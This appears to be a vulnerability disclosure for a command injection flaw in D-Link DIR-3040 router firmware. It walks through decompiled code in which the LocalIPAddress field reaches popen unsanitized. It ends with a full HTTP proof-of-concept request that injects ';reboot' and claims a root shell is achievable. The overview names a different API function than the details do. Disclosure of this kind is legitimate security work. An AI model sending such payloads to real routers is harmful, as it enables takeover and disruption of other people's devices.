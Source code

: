 # D-link DIR3040_A1_FW120B03.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/.


A problem was found on the D-Link DIR-3040 device with firmware 120B03. This problem is a command injection that allows remote attackers to execute arbitrary code and obtain a root shell. Command injection vulnerabilities allow attackers to execute arbitrary operating system commands via a crafted/HNAP1 POST request. This occurs when any HNAP API function triggers a call to a system function using untrusted input from the request body of the SetWebFilterSettings API function.


## Vulnerability details

DIR-3040 prog.cgi  Keyword api SetVirtualServerSettings。

Web management functionality on the DIR-3040 is mainly handled by the `prog.cgi` binary. The `lighttpd` `fastcgi` server configuration is such that requests made to `/HNAP1/` or files with the `.fcgi` extension are handled by `/etc_ro/lighttpd/www/web/HNAP1/prog.fcgi`, which is a symlink to `/bin/prog.cgi`.

__s1parameter and iVar5 parameter are acquired as follows.

```c
snprintf(acStack276,0x100,"/SetVirtualServerSettings/VirtualServerList/VirtualServerInfo:%d/%s",
             local_415c,"Enabled");
__s1 = (char *)webGetVarString(param_1,acStack276);
```

```c
 snprintf(acStack276,0x100,
               "/SetVirtualServerSettings/VirtualServerList/VirtualServerInfo:%d/%s",local_415c,
               "LocalIPAddress");
 iVar5 = webGetVarString(param_1,acStack276);
```



If a request with a non-null `LocalIPAddress`, `Enabled` set to “true”, an `InternalPort` of “9” and a `ProtocolType` of “UDP” is sent, the function  FUN_00462400 is invoked.

```c
  iVar7 = strcmp(__s1,"true");
  if ((((iVar7 == 0) && (iVar5 != 0)) && (iVar7 = strcmp(__s1_00,"9"), iVar7 == 0)) &&
     (iVar7 = strcmp(__s1_01,(char *)&PTR_DAT_004e09ec), iVar7 == 0)) {
    local_4154 = local_4154 + 1;
    iVar7 = FUN_00462400(iVar5,__s1_00,__s1_01,auStack16676,local_4154);
    if (iVar7 == -1) {
      local_4160 = 0xb;
      goto LAB_004632dc;
    }
  }
```

 function attempts to check the device ARP records, by calling the `arp` system command and `grep`’ing the output. However, the user-controlled value passed as the `LocalIPAddress` is written directly into the command line format string with `snprint()`. This string is then passed directly to a function called `FCGI_popen()`, which is a library function imported from `libfcgi.so`.

```c
undefined4
FUN_00462400(undefined4 param_1,undefined4 param_2,undefined4 param_3,char *param_4,int param_5)

{
..
...
.....
  memset(acStack136,0,0x40);
  memset(auStack72,0,0x40);
  snprintf(acStack136,0x40,"arp | grep %s | awk \'{printf $4}\'",param_1);
  iVar1 = FCGI_popen(acStack136,&DAT_004e08f4);
  if (iVar1 == 0) {
    uVar2 = 0xffffffff;
  }
```

We can see in `libfcgi.so` that `FCGI_popen()` is essentially only a thin wrapper around the stdio `popen()` library function. Arguments passed to `FCGI_popen()` get passed directly to `popen()`.

```c
int FCGI_popen(char *param_1,char *param_2)

{
  FILE *__stream;
  int iVar1;
  
  __stream = popen(param_1,param_2);
  iVar1 = FCGI_OpenFromFILE(__stream);
  if ((__stream != (FILE *)0x0) && (iVar1 == 0)) {
    pclose(__stream);
  }
  return iVar1;
}
```

Since the `LocalIPAddress` value is not sanitized or checked in any way, a crafted command injection string can be passed as the `LocalIPAddress`, which will then be written to the `arp` command format string, and passed (almost) directly to `popen()`. 



## POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: A4A816AE6CF2AC5537B0EB390FFB591C 1436839665
Content-Length: 765
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/VirtualServer.html
Cookie: uid=ZeNYZag3Gw

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>Wake-On-Lan</VirtualServerDescription>
					<ExternalPort>1</ExternalPort>
					<InternalPort>9</InternalPort>
					<ProtocolType>UDP</ProtocolType>
					<ProtocolNumber>1</ProtocolNumber>
					<LocalIPAddress>192.168.0.100;reboot</LocalIPAddress>
					<ScheduleName></ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell